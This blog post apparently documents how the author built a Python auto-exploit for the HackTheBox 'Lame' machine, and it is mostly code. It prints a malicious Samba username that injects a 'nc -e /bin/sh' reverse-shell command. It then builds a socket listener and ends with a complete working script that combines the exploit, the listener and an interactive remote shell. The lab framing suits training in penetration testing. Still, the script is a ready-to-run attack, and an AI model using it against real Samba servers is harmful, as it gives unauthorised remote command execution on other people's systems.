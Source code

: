 ```yaml
---
layout: post
title: "HackTheBox Lame Autopwn"
permalink: /blog/lame-autopwn
categories: hackthebox
---
```


# Building The Autopwn

For my [lame](https://agent-tiro.github.io/htb/lame) writeup I ended up making an autopwn script. Mainly as an exercise for me to keep improving my scripting knowledge. I thought it would be good to explain how it was put together and built in stages for those looking to start scripting a bit more. 

## The Exploit

The aim is to connect to the Samba share and logon with the crafted username to run a command that will connect back to a listener we set up. This part is fairly straight forward. All we need is a python library to handle the smb protocol. I used [pysmb](https://pypi.org/project/pysmb/), which has some good online [documentation](https://pysmb.readthedocs.io/en/latest/). 

First up we will set the malicious username variable, and a password to exploit the vulnerability. 

```
username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important
```

Now we want to import the relevant parts from the smb library and setup a connection to the Samba share. 

```
from smb.SMBConnection import SMBConnection
from smb import smb_structs

username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important

smb_structs.SUPPORT_SMB2 = False
conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
conn.connect('10.10.10.3', 445)
```

In this part we set support to SMB2 to false to enable connection to the older version of Samba that we are targetting. The details for the connection are completed, using the documents as a reference for what should be passed. Then connect is used to initiate the connection to the target IP and port. 

If you really wanted this could be the end of your exploit script. You could setup a netcat listener and run this exploit and enjoy your shell. Or if you wanted to challenge yourself you could try and setup your own listener in python to catch the incoming connection

## The Listener

For this I used the socket library which is well documented and has a lot of use cases that can be used to help solve problems you encounter. 

```
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((<ip addr>, <port>))
s.listen(5)
```

So now the listener is setup we need a way to accept the incoming connection when the exploit is ran. It also needs to be able to send commands to the target and receive the response. 

```
client_socket, client_addr = s.accept() # accepts the incoming connection
while True:
    command = input("") # take user input for commands
    if command.lower() == 'exit': # so we can use exit to close the shell
        break
    command = command.encode() # encode the command to be sent
    client_socket.send(command + b'\n') # send the command
    response = client_socket.recv(2048).decode() # receive the response and decode
    print(response) # print the response
client_socket.close()
s.close()
```

## The Listener Problem

The problem we have here is that if this was all combined into a script is that it wouldn't be possible to launch the listener then switch to running the exploit. The easiest way around this that I found was to use multiprocessing. This needed a bit of a rework of the above parts and to put some of them into functions. With the multiprocessing bit looking like this:

```
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```

This basically sets a process to the listener and another to the exploit and starts them sequentially before dropping into the command functon which accepts the inbound connection and gives command shell functionality. 

## The Final Exploit

Putting all of this together, with a little extra to take user input to set the listening host and port and you have an all in one script that will setup the listener, run the exploit and give you command line access to the target. 

```
import argparse
from smb.SMBConnection import SMBConnection
from smb import smb_structs
import socket
import multiprocessing
import time

# Create a mini help file to show which flags are required
parser = argparse.ArgumentParser(description='Lame Exploit')
parser.add_argument('-l', required=True, type=str, help='Listener IP')
parser.add_argument('-p', required=True, type=int, help='Listener Port')
args = parser.parse_args()

# Set user args to variables for use later
host = args.l
port = args.p

# Create malicious username
username = '/=`nohup nc -e /bin/sh ' + host + ' ' + str(port) + '`'
password = 'hunter2'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Set up a listener
def listener():
    s.bind((host, port))
    s.listen(5)
    print('Listening on port: ' + str(port))

# Catch that shell
def cmd():
    client_socket, client_addr = s.accept()
    print(f'{client_addr[0]}:{client_addr[1]} Connected!')
    print('Whoop! Shell Time!\n')
    while True:
        command = input("")
        if command.lower() == 'exit':
            break
        command = command.encode()
        client_socket.send(command + b'\n')
        response = client_socket.recv(2048).decode()
        print(response)
    client_socket.close()
    print('Exiting')
    s.close()

# Create SMB Connection
def exploit():
    smb_structs.SUPPORT_SMB2 = False
    conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
    print('Launching exploit')
    conn.connect('10.10.10.3', 445)
    time.sleep(1)
    close()

# Launch this thing in multiprocessing
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```
